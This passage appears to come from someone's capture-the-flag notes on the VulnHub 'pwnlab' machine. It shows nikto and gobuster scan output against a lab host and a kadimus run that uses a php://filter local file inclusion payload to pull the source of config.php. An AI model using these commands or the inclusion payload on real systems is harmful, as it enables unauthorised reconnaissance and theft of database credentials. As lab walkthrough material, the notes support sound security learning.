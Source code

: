 ```
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ Cookie PHPSESSID created without the httponly flag
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7915 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2020-01-07 17:37:41 (GMT1) (68 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

#### gobuster

```
root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab# ~/go/bin/gobuster dir -u http://192.168.56.103/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,sql -t 40 -e -o scans/gobuster_dir_med-php-txt-html-sql.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.56.103/
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,sql,php,txt
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/01/07 17:49:15 Starting gobuster
===============================================================
http://192.168.56.103/index.php (Status: 200)
http://192.168.56.103/images (Status: 301)
http://192.168.56.103/upload (Status: 301)
http://192.168.56.103/upload.php (Status: 200)
http://192.168.56.103/login.php (Status: 200)
http://192.168.56.103/config.php (Status: 200)
http://192.168.56.103/server-status (Status: 403)
===============================================================
2020/01/07 17:51:26 Finished
===============================================================
```

#### kadimus

``` 
root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# kadimus -u http://192.168.56.103/?page=login --parameter page --get-source --filename "config" -O config.php --proxy http://127.0.0.1:8080 

(GET /?page=php://filter/convert.base64-encode/resource=config HTTP/1.1)


 _  __         _ _                     
| |/ /__ _  __| (_)_ __ ___  _   _ ___ 
| ' // _` |/ _` | | '_ ` _ \| | | / __|
| . \ (_| | (_| | | | | | | | |_| \__ \
|_|\_\__,_|\__,_|_|_| |_| |_|\__,_|___/

  v1.1 - LFI Scan & Exploit Tool (@hc0d3r - P0cL4bs Team)

[19:37:04] [INFO] trying get source code of file: config
```